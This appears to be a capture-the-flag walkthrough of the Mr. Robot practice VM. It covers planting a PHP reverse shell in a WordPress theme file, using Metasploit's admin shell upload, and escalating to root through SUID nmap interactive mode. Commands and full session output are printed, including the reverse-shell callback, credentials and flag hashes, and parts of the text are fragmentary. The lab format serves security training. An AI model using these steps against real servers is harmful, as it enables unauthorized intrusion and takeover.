


Step 6: Reverse Shell
Reverse Shell via WordPress
Method 1: PHP Reverse Shell
Uploading a Reverse Shell via WordPress
-
Log in to WordPress Admin:
- Go to http://192.168.1.226/wp-admin and log in using the credentials you have.
-
Edit the Theme:
- Navigate to Appearance > Theme Editor.
- Select the 404.php file or another template file that is likely to be executed.
 3. Insert the Reverse Shell Code:
- Insert a PHP reverse shell code into the 404.php file
- `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`
 4. Start a Netcat Listener:
- On the Kali machine, start a netcat listener:`nc -lvnp 4444`
- Visit the modified 404.php file in your browser to trigger the reverse shell.
- `http://192.168.1.226/wp-content/themes/[Twenty-Fifteen]/404.php`
- Spawn a TTY Shell Using Python: `python -c 'import pty; pty.spawn("/bin/bash")'`
-
Exploring the System
- Navigate the File System
ER28-0652 did not work.
password.raw-md5must be hacked.
- Crack
password.raw-md5
key-2-of-3.txt
key-3-of-3.txt
Since we couldn't directly access the third key (key-3-of-3.txt) with the permissions of the robot user, we needed to find a way to escalate your privileges to gain root access.
15.Identifying Privilege Escalation Opportunities
/usr/local/bin/nmap.
17.Exploiting nmap for Privilege Escalation
By finding a file with elevated privileges (in this case, nmap with the SUID bit set), we were able to exploit it to gain root access and ultimately access the key-3-of-3.txt file. This process of privilege escalation is a common technique in ethical hacking and penetration testing to demonstrate how a lower-privileged user can potentially gain unauthorized access to restricted information.
Method 2: Use Metasploit
-
Using Metasploit to Gain a Reverse Shell
-
Start Metasploit Framework:
Open your terminal and start Metasploit: msfconsole
-
Search for WordPress Exploits:
search wordpress -
Select an Exploit Module:
use exploit/unix/webapp/wp_admin_shell_upload -
Set Required Options:
Set the target URL and login credentials for the WordPress admin:
5. Set the Payload:- Run the Exploit:
exploit
View the full module info with the info, or info -d command.
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot
USERNAME => elliot
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
[*] Started reverse TCP handler on 192.168.1.223:4444
[*] Skipping WordPress check...
[*] Authenticating with WordPress using elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 561b3a4c73
[*] Uploaded plugin lCXSKnpNHP
[*] Executing the payload at /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php...
[*] Sending stage (39927 bytes) to 192.168.1.226
[*] Meterpreter session 3 opened (192.168.1.223:4444 -> 192.168.1.226:59378) at 2024-06-25 18:56:54 -0400
[!] This exploit may require manual cleanup of 'DXgKrelAug.php' on the target
[!] This exploit may require manual cleanup of 'lCXSKnpNHP.php' on the target
[!] This exploit may require manual cleanup of '../lCXSKnpNHP' on the target
meterpreter >
meterpreter > shell
8. Upgrade to a Full Shell: python -c 'import pty; pty.spawn("/bin/bash")'
9. Explore the File System
10. Read the Content of Key Files:
10. Identify Privilege Escalation Opportunities: find / -perm -u=s -type f 2>/dev/null
11. Exploiting Nmap Interactive Mode: /usr/local/bin/nmap
12. Find and Read the Final Key
13. Cleaning Up
meterpreter > shell
Process 6921 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
<ps/wordpress/htdocs/wp-content/plugins/lCXSKnpNHP$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -a
ls -a
. .. key-2-of-3.txt password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959 # Flag 2 of 3 ✔️
# find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4 # Flag 3 of 3 ✔️
#
I was be able to fully exploit the Mr. Robot VM, find all the hidden keys, and perform necessary post-exploitation tasks.